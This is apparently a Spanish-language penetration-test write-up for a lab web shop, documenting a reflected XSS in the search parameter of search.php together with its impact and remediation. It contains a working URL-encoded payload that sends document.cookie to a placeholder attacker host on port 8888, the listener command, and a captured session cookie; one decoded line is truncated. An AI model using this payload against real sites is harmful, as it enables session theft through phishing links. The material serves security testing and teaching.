


# 💉 F-004 — XSS reflejado en el buscador

   

> [!IMPORTANT]
> El parámetro `q` de `search.php` se refleja sin escapar el HTML. A diferencia del XSS almacenado de [F-003](F-003-xss-almacenado-reviews.md), este solo necesita que la víctima haga clic en un enlace — ideal para phishing dirigido. PoC de robo de sesión completado.

## 📖 Contexto

El buscador de la tienda (`search.php?q=...`) muestra un mensaje "Showing results for ..." con el término buscado. Al probar con HTML en el parámetro `q`, el mensaje lo interpretó como etiquetas reales en vez de mostrar el texto literal.

**Endpoint afectado:** `http://172.17.0.2:8080/search.php?q=<payload>`

## 🔬 Explotación paso a paso

1. Probar el payload `q=<u>hola</u>`:



El mensaje "Showing results for "hola" — 0 items found." muestra **"hola" subrayado y en negrita** (interpretado como HTML), en vez de mostrar el texto escapado literal `<u>hola</u>`. Confirma ausencia total de escapado en la salida.

2. Construir el enlace malicioso con el payload de exfiltración de cookie en `q` (URL-encoded):

```
http://172.17.0.2:8080/search.php?q=%3Cimg+src%3Dx+onerror%3D%22fetch%28%27http%3A%2F%2F<IP_ATACANTE>%3A8888%2F%3Fc%3D%27%2Bdocument.cookie%29%22%3E
```

que decodificado es:

```html
:8888/?c='+document.cookie)">
```

3. Con un listener propio activo (`python3 -m http.server 8888`), abrir ese enlace con sesión iniciada. El listener recibe la cookie en texto plano:



```
GET /?c=PHPSESSID=40ko1d8ed8cje727c6n3j207p6 HTTP/1.1
```

No se encontró ningún filtro ni WAF que bloquee el payload — `` funciona sin ninguna restricción.

## 💥 Impacto

> [!CAUTION]
> Mismo impacto que F-003 (robo de sesión completo) pero por vector **reflejado** — basta un solo clic con sesión iniciada, sin que el atacante necesite haber plantado nada de antemano.

Al ser reflejado, requiere enviar a la víctima un enlace con el payload en `q` (phishing, mensaje directo, enlace en redes sociales) — pero no requiere cuenta propia del atacante ni acceso previo a la aplicación, a diferencia del almacenado. Vector ideal para dirigirlo específicamente contra el administrador.

## 🛡️ Remediación

- Escapar el parámetro `q` en la salida (`htmlspecialchars()` o equivalente).
- Validar/normalizar la entrada antes de reflejarla en cualquier contexto HTML.
- Añadir cabecera `Content-Security-Policy` como defensa en profundidad.

## Hallazgos relacionados

- [F-001 — Cookie de sesión sin atributos de seguridad](F-001-cookie-sesion-sin-atributos.md): sin `HttpOnly`, este XSS se convierte en robo de sesión real.
- [F-003 — XSS almacenado en reviews](F-003-xss-almacenado-reviews.md): mismo impacto, vector almacenado en vez de reflejado.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
